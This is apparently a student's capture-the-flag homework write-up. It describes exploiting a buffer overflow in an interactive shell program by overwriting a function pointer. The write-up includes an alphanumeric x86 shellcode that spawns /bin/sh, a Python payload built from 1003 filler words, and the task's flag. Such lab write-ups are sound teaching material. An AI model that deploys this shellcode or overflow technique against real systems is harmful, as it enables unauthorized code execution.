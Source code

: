 ```yaml
---
title: nphw1 Writeup
category: memo
slug: nphw1-writeup
date: 2014-11-12
---
```

Security Programming Homework 2-1

## Intelligence Gathering

-  There is a vulnerability in piece of code which contains `strtok()`
-  There is a `call eax` in the binary
-  Because it is an interactive shell program, bad characters are 0x00, 0x0a,
   0x2f (filter out by specific function in the program)

## De-complie the binary

It is hard to debug using gdb. A possible method is to use gdbserver to do
remote debugging. But sadly, I do not have time to learn how to use it. Maybe
next time...

So I turned up using IDA Pro to do the static analysis. By decompilation,
bunch of functions showed up:

```text
...
frame_dummy
passCmdline
splitCmdline
parseArgv
printEnv
setEnv
getResult
sendResult
closePipes
exeCmd
nextLine
main
passPipe
addPipe
delPipe
...
```

By doing some observation, I picked up three interesting functions for deeper
inspection: `main`, `passCmdline`, `splitCmdline`, `exeCmd`.

| Offset of cmdline | Meaning                               |
| -----------------:| ------------------------------------- |
| 0                 | pointer of whole command line         |
| 1 - 10000         | pointer of each word                  |
| 10001             | number of words in whole command line |
| 10002 - 11001     | single command, seperated by '\|'     |
| 11002             | argc                                  |
| 11003             | not important                         |
| 11004             | stdout                                |
| 11005             | pointer of function printEnv()        |
| 11006             | pointer of string "printenv"          |
| 11007             | pointer of function setEnv()          |

Since the program uses function pointer to call printEnv(), we can simply put
our shellcode to replace the original printEnv() with the aid of buffer
overflow.

According to the table above, stack overflow will happen when we type more than
1000 words in one single command (commands are seperated by '|'). To overwrite
index 11005 with our shellcode, we need to stuff 1003 words in total.

The 1005th word will overwrite the pointer of the string "printenv", which used
to compared to the very first word. When they are equal, the program will run
into printEnv(). So our job is to ensure they will be the same, otherwise it
won't call our shellcode.

## Shellcode

The shellcode for execute `/bin/sh` is showed following, grab from the
Internet. See the references at the end of this article for more information.

```text
PYj0X40PPPPQPaJRX4Dj0YIIIII0DN0RX502A05r9sOPTY01A01RX500D05cFZBPTY01SX540D05ZFXbPTYA01A01SX50A005XnRYPSX5AA005nnCXPSX5AA005plbXPTYA01Tx
```

## Exploitation

The first word should be the same as the last word, and the shellcode should be
1004th word. That's all!

```python
payload = 'a ' * 1003
payload += 'PYj0X40PPPPQPaJRX4Dj0YIIIII0DN0RX502A05r9sOPTY01A01RX500D05cFZBPTY01SX540D05ZFXbPTYA01A01SX50A005XnRYPSX5AA005nnCXPSX5AA005plbXPTYA01Tx '
payload += 'a'
```

Don't forget to append a new line character to fire our payload!

## Flag

The flag is `SECPROG{N3tw0rk_Pr0gr4mm1ng_h0m3w0rk_1s_e4s1er}`

## References

-  [Linux x86 Shellcoding 101 – Objective: Topics introduction and exit(69)
   shellcode](http://0xcd80.wordpress.com/2011/04/16/linux-x86-shellcoding-101/)
-  [x86 alphanumeric shellcodeを書いてみる](http://inaz2.hatenablog.com/entry/2014/07/11/004655)
